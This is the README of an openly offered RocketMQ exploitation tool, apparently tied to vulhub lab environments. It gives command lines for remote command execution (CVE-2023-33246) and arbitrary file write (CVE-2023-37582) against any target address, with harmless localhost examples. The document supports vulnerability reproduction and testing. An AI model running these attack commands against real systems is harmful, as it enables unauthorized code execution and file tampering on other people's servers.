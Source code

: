 # RocketMQ Attack Tool

A tool for testing RocketMQ vulnerabilities.

⚠️ **WARNING** ⚠️

**THIS IS A SECURITY TESTING TOOL THAT MAY CAUSE SEVERE DAMAGE TO TARGET APPLICATIONS**

- This tool can disrupt normal operations of RocketMQ services
- DO NOT use in production environments
- DO NOT use without explicit authorization
- Use at your own risk
- Authors are not responsible for any damage caused by this tool

## Features

- [x] Attack RocketMQ Broker (CVE-2023-33246)
- [x] Attack RocketMQ Nameserver (CVE-2023-37582)
- [x] Easy-to-use command-line interface
- [x] Support for both short and long command options

## Usage

Download the latest built JAR file from [Releases](https://github.com/vulhub/rocketmq-attack/releases/tag/1.1).

### Attack Broker (CVE-2023-33246)

Command-line options:

- `-t, --target`: Target address in host:port format
- `-c, --cmd`: Command to execute on the target

Reproduce environment: [CVE-2023-33246](https://github.com/vulhub/vulhub/tree/master/rocketmq/CVE-2023-33246)

```bash
java -jar rocketmq-attack-1.1-SNAPSHOT.jar AttackBroker --target <host:port> --cmd <command>

# Example:
java -jar rocketmq-attack-1.1-SNAPSHOT.jar AttackBroker --target 127.0.0.1:10911 --cmd "id"
```

### Attack Nameserver (CVE-2023-37582)

Command-line options:

- `-t, --target`: Target address in host:port format
- `-f, --file`: Target file path to write
- `-d, --data`: Content to write into the file

Reproduce environment: [CVE-2023-37582](https://github.com/vulhub/vulhub/tree/master/rocketmq/CVE-2023-37582)

```bash
java -jar rocketmq-attack-1.1-SNAPSHOT.jar AttackNamesrv --target <host:port> --file <file_path> --data <content>

# Example:
java -jar rocketmq-attack-1.1-SNAPSHOT.jar AttackNamesrv --target 127.0.0.1:9876 --file /tmp/test.txt --data "Hello World"
```

## Building

Requires JDK 8 or later.

```bash
./gradlew shadowJar
```

The built JAR file will be located at `build/libs/rocketmq-attack-1.1-SNAPSHOT.jar`

## References

- [CVE-2023-33246](https://nvd.nist.gov/vuln/detail/CVE-2023-33246)
- [CVE-2023-37582](https://nvd.nist.gov/vuln/detail/CVE-2023-37582)

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

